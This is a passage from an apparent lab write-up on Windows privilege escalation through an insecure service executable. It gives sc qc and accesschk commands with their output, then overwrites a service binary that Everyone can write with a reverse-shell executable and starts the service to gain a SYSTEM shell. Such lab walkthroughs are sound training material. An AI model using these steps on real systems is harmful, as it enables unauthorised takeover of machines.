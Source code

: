 ```bash
C:\PrivEsc>net start regsvc
```

<br>
<h2>Task 6 . 𝗦𝗲𝗿𝘃𝗶𝗰𝗲 𝗘𝘅𝗽𝗹𝗼𝗶𝘁𝘀 - Insecure Service Executables<a id='6'></h2>
<p>Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).<br>

<code>sc qc filepermsvc</code><br>

Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:<br>

<code>C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"</code><br>

Copy the reverse.exe executable you created and replace the filepermservice.exe with it:<br>

<code>copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y</code><br>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:<br>

<code>net start filepermsvc</code></p>

<p><em>Answer the question below</em></p>

<p>6.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>


```bash
C:\PrivEsc>sc qc filepermsvc
sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

```bash
C:\PrivEsc>accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
	FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
	FILE_ALL_ACCESS
  RW BUILTIN\Administrators
	FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
	FILE_ALL_ACCESS
  RW BUILTIN\Users
	FILE_ALL_ACCESS
```

